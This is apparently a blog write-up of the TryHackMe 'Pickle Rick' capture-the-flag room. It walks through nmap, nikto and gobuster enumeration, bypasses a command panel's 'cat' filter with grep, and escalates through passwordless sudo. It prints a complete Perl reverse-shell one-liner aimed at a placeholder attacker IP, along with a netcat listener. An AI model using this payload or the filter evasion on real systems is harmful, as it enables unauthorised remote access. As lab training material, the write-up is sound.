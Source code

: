 ```yaml
---
layout: archive
title: 'Pickle Rick'
permalink: /write-ups/2023/01/pickle-rick/
tags:
  - CTF
  - TryHackMe
  - Hacking
---
```


🚩

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Begin the box by setting up directory for project under ~/pickle-rick-ctf, also created a directory for nmap. at ~/pickle-rick-ctf/nmap. This is just to easily store and remove the information and files gathered during the CTF.

Using nmap we can begin gathering information about the target.

```bash
nmap -sV -sC -O $ip -oN nmap/initial
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:23 EDT
Nmap scan report for 10.10.178.231
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0b:eb:d9:e4:65:7d:72:1a:d0:a1:fd:c3:88:2c:ee:82 (RSA)
|   256 77:b4:2c:d4:88:15:ca:7f:d5:fb:2d:ec:d7:d5:41:37 (ECDSA)
|_  256 a5:7f:5f:33:47:d7:d8:f2:04:c3:7e:c8:8e:f6:89:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=38185%PV=Y%DS=2%DC=I%G=Y%TM=652DC6
OS:17%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z
OS:%CI=I%TS=8)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11N
OS:W7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508S
OS:T11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=4
OS:0%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.95 seconds
```

First of all we can see the machine is running 2 ports. Port 22 & 80 indicating a http web server is running as well as OpenSSH on port 22.

We can begin to look at the site to see what is going on.

![](/images/pr1.png)

Site returns a page indicating that Rick needs help from Morty to turn himself back into a human. As he was a pickle, classic Rick.

By viewing the HTML source code we can see that rick has left a note that his username is R1ckRul3s - Now we know Ricks username but we don’t know what this username is for or the password.

Next I’m going to use nikto to attempt to try and find any outdated software versions or files/directories that could be exploited.

```bash
nikto -url $ip | nikto-output.log
```

![Untitled](/images/pr2.png)

Nikto showed us that the version of Apache appears to be out of date, there is a login page at /login.php and some other stuff.

Whilst nikto is doing it’s work I’m also going to user gobuster to try and find any hidden directories using a wordlist provided in /usr/share/wordlists.

```bash
gobuster -u $ip -w=/usr/share/wordlists/directory-list-1.0.txt -x php,sh,txt
```

Gobuster will brute force the directories and hopefully give us some results which we can use to find more information about the target machine.

![Untitled](/images/pr3.png)

Gobuster has given us a few pages to check out including the same login page shown by nikto as well as portal.php, ./php, an assets directory and finally robots.txt.

Opening robots.txt we can see some text this could be a password of some kind or just Rick being Rick.

Trying the combination of R1ckRul3s and REDACTED on the login.php page is correct and we have successfully logged into the admin panel.

![Untitled](/images/pr4.png)

Let’s try and explore the different pages to see if we can find anything interesting. All the links return a GIF screen indicating that only the real Rick can view these pages.

![Untitled](/images/pr5.png)

The commands section however has a blank box in which we can execute code and the return is shown back to us.

![Untitled](/images/pr6.png)

Running ls in the commands panel displays the files within the directory.

![Untitled](/images/pr7.png)

Using cat returns an error that the command is disabled to make it harder. This means we will have to find another way to view the files contents.

Using both head and tail is also forbidden so instead we can try other methods of displaying. One way is to use;

```bash
grep . Sup3rS3cretPickl3Ingred.txt
```

Grep is not disabled and returns the answer to the first clue in the CTF.

You could also try writing a script that echos the contents of the file line by line but grep is much cleaner in this situation.

We need to find a way to give us a more stable shell and not rely on the web interface to try and navigate the file system (This is possible and you can complete the challenge by doing so). To do this we can use a reverse shell.

We can try by using netcat but the string “cat” will be caught by the checking system used by the site to prevent the usage of cat. Using the shorthand nc also yields nothing.

Next we can try and use perl or python to try and return an output.

```bash
perl -e "print 'test'"
```

This time we get the output of “test” so we know we can use perl in some way to give us a reverse shell.

Using [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to give us a premade shell command to work with.

```bash
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We can modify this command to insert our IP address and our chosen port to establish a connection.

```bash
nc -lvnp PORT
```

Let’s start a listener with netcat and set it listening on the same port you used for the command.

Now we can insert the script into the command panel and hopefully establish a reverse shell to make it easier to navigate the filesystem and get more answers.

![Untitled](/images/pr8.png)

Success!

Once in we can run the whoami command to see that we are user www-data. We can also see what permissions we have using the command;

```bash
sudo -l
```

This command shows us that we may run any command with no password required. This is fantastic news.

![Untitled](/images/pr9.png)

After snooping around in the file directory we can access the /home directory and see there are two users on the system. Ubuntu and Rick. Entering Ubuntu we see nothing in there. Going into Rick shows us a file named “second ingredients”.

```bash
cat "second ingredients"
```

Returns the second answer to our CTF.

Now we need to find the final ingredient to turn Rick back into a human.

Using the fact we can use any command with no password means we can view the root directory using the following command;

```bash
sudo ls /root/
```

This shows us the following;

![Untitled](/images/pr10.png)

This must be the third ingredient required.

```bash
sudo cat 3rd.txt
```

We get our final ingredient and finish our CTF adventure with Rick and Morty.
